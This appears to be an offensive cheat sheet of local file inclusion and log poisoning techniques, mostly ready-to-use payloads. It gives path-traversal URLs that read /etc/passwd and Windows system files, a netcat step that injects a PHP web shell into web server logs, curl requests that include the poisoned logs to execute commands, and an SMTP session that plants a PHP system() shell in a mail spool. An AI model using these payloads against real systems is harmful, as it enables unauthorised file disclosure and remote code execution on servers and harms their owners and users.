 # LFI
#### Linux:  
```http
https://insecure-website.com/loadImage?filename=../../../etc/passwd
```
#### Windows
```http
http://target.com/?page=c:\windows\system32\drivers\etc\hosts
http://webserver:ip/index.html?../../../../../boot.ini
```

***
## Log Poisoning  

Good Candidates:
  ```
  /var/log/apache/access.log
  /var/log/apache/error.log
  /var/log/vsftpd.log
  /var/log/sshd.log
  /var/log/mail
```

#### Web log poisoning
```bash
nc 10.10.10.14 80
<?php echo '<pre>' . shell_exec($_GET['cmd'])  . '</pre>'; ?>
```
**Linux**
```bash
curl http://10.10.0.1/addguestbook.php?name=Test&comment=Which+lang%3F&cmd=ipconfig&LANG=../../../../../../../xampp/apache/logs/access.log%00&Submit=Submit
```

**Windows**
```bash
curl http://10.10.10.14/menu.php?file=c:\xamp\apache\logs\access.log&cmd=ls
```

<br><br>
#### SSH log posioning  
http://www.hackingarticles.in/rce-with-lfi-and-ssh-log-poisoning/  
<br><br>

#### Mail log  
Metodo LFI /var/mail/*user*


```bash
telnet <IP> 25  
EHLO <random character>  

VRFY <user>@localhost  

mail from:attacker@attack.com  
rcpt to: <user>@localhost  
data  

Subject: title  

<?php echo system($_REQUEST[cmd]); ?>  

<end with .>  

```